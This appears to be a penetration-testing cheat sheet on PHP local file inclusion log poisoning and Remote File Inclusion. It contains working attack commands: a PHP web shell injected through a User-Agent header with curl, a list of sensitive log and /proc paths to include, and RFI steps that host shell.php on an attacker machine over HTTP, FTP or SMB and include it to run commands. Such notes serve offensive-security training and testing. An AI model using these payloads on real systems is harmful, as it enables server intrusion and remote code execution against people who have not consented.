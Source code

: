 **Log Poisoning**

In this technique, we will inject PHP code, for example, into a parameter or header, and then, using LFI, we will read a log file where the value of that parameter appears, thereby executing our code.

````
/var/lib/php/sessions/sess_<PHPSESSID>

/var/log/apache2/access.log (User-Agent)
$ echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison
$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison
/proc/self/environ
/proc/self/fd/N (where N is a PID usually between 0-50)

/var/log/sshd.log
/var/log/mail
/var/log/vsftpd.log
````

## Remote File Inclusion

When a vulnerable function allows us to include remote files, we may be able to host a malicious script, and then include it in the vulnerable page to execute malicious functions and gain remote code execution.
In this scenario, instead of having the server load a file that is located on the server itself, we will have the server load a file that is on our machine.


| Language | Function                  | Read Content | Execute | Remote URL |
|----------|---------------------------|--------------|---------|------------|
| PHP      | include()/include_once()  | ✅            | ✅       | ✅          |
| PHP      | file_get_contents()       | ✅            | ❌       | ✅          |
| Java     | import                    | ✅            | ✅       | ✅          |
| .NET     | @Html.RemotePartial()     | ✅            | ❌       | ✅          |
| .NET     | include                   | ✅            | ✅       | ✅          |

**Example**

HTTP
````
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
$ sudo python3 -m http.server <LISTENING_PORT>
?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
````
FTP
````
$ sudo python -m pyftpdlib -p 21
?language=ftp://<OUR_IP>/shell.php&cmd=id
````
SMB
````
$ impacket-smbserver -smb2support share $(pwd)
?language=\\<OUR_IP>\share\shell.php&cmd=whoami
````
